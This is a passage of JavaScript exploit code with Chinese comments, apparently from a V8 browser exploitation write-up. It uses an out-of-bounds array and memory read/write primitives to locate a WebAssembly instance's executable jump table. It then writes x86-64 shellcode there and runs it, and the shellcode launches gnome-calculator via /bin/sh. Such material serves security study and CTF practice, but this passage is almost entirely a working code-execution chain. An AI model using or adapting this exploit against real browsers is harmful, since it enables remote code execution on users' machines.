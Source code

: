 /******* -- 布置 wasm 地址以及获取 RWX 内存地址 -- *******/
function prettyHex(bigint)
`{`
    return "0x" + BigInt.asUintN(64,bigint).toString(16).padStart(16, '0');
`}`

// C++ 代码 `void func() `{``}`` 的 wasm 二进制代码
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,132,128,128,128,
    0,1,96,0,0,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,
    131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,
    6,109,101,109,111,114,121,2,0,4,102,117,110,99,0,0,10,136,128,128,128,
    0,1,130,128,128,128,0,0,11]);
var m = new WebAssembly.Instance(new WebAssembly.Module(wasmCode),`{``}`);
var WasmJSFunction = m.exports.func;
// 将WasmJSFunction 布置到与 oob_arr 数组相同的内存段上
// 这里写入了一个哨兵值0x233333，用于查找 WasmJSFunction 地址
var WasmJSFunctionObj = `{`guard: Int64ToFloat64(0x233333), wasmAddr: WasmJSFunction`}`;
var WasmJSFunctionIndex = -1;

for(let i = 0; i &lt; 0x4000; i++)
`{`   
    // 查找哨兵值
    if(Float64ToInt64(oob_arr[i]) == 0x233333)
    `{`
        WasmJSFunctionIndex = i + 1;
        break;
    `}`
`}`

// 简单确认一下是否成功找到 WasmJSFunctionAddr
if(WasmJSFunctionIndex == -1)
    throw "WasmJSFunctionAddr is not found!";
else
    log("[+] find WasmJSFunctionAddr offset: " + WasmJSFunctionIndex);

// 获取 WasmJSFunction 地址
WasmJSFunctionAddr = Float64ToInt64(oob_arr[WasmJSFunctionIndex]) - BigInt(1);
log("[+] find WasmJSFunction address: " + prettyHex(WasmJSFunctionAddr));
// 获取 SharedFunctionInfo 地址
SharedFunctionInfoAddr = read_8bytes(WasmJSFunctionAddr + BigInt(0x18)) - BigInt(1);
log("[+] find SharedFunctionInfoAddr address: " + prettyHex(SharedFunctionInfoAddr));
// 获取 WasmExportedFunctionData 地址
WasmExportedFunctionDataAddr = read_8bytes(SharedFunctionInfoAddr + BigInt(0x8)) - BigInt(1);
log("[+] find WasmExportedFunctionDataAddr address: " + prettyHex(WasmExportedFunctionDataAddr));
// 获取 WasmInstanceObject 地址
WasmInstanceObjectAddr = read_8bytes(WasmExportedFunctionDataAddr + BigInt(0x10)) - BigInt(1);
log("[+] find WasmInstanceObjectAddr address: " + prettyHex(WasmInstanceObjectAddr));
// 获取 JumpTableStart 地址
JumpTableStartAddr = read_8bytes(WasmInstanceObjectAddr + BigInt(0xe8));
log("[+] find JumpTableStartAddr address: " + prettyHex(JumpTableStartAddr));

/******* -- 写入并执行shell code -- *******/
var shellcode = new Uint8Array(
    [0x6a, 0x3b, 0x58, 0x99, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53,
     0x48, 0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8, 0x1c, 0x00,
     0x00, 0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x20, 0x67, 0x6e,
     0x6f, 0x6d, 0x65, 0x2d, 0x63, 0x61, 0x6c, 0x63, 0x75, 0x6c, 0x61, 0x74, 0x6f, 0x72, 0x00,
     0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05]
);
// 写入shellcode 
log("[+] writing shellcode ... ");
// (尽管单次写入内存的数据大小为8bytes，但为了简便，一次只写入 1bytes 有效数据)
for(let i = 0; i &lt; shellcode.length; i++)
    write_8bytes(JumpTableStartAddr + BigInt(i), shellcode[i]);
// 执行shellcode
log("[+] execute calculator !");